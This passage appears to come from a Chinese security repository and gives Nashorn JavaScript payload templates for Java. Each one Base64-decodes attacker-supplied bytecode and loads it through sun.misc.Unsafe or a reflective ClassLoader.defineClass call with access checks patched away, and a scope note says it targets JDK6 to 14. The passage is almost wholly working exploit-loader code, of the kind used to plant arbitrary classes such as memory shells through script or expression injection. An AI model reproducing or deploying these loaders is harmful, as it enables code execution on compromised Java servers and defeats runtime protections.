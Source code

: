 ```

function Base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.util.Base64.getDecoder().decode(str);
    }
    return bt;
}

function defineClass(classBytes) {
    try {
        unsafe.defineClass(null, classBytes, 0, classBytes.length, null, null).newInstance();
    } catch (e) {
        bypass()
        var defineClassMethod = java.lang.Class.forName("java.lang.ClassLoader").getDeclaredMethod(
            "defineClass",
            java.lang.Class.forName("[B"),
            java.lang.Integer.TYPE,
            java.lang.Integer.TYPE
        );
        var modifiers = defineClassMethod.getClass().getDeclaredField("modifiers");
        unsafe.putShort(defineClassMethod, unsafe.objectFieldOffset(modifiers), 0x00000001);
        var cc = defineClassMethod.invoke(
            java.lang.Thread.currentThread().getContextClassLoader(),
            classBytes,
            0,
            classBytes.length
        );
        cc.newInstance();
    }
}
defineClass(Base64DecodeToByte(code));

```

### defineAnonymousClass.js

适用范围：JDK6-14

```
function Base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.util.Base64.getDecoder().decode(str);
    }
    return bt;
}

function defineClass(classBytes) {
    var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    theUnsafe.setAccessible(true);
    unsafe = theUnsafe.get(null);
    unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), classBytes, null).newInstance();
}

defineClass(Base64DecodeToByte(code));

```
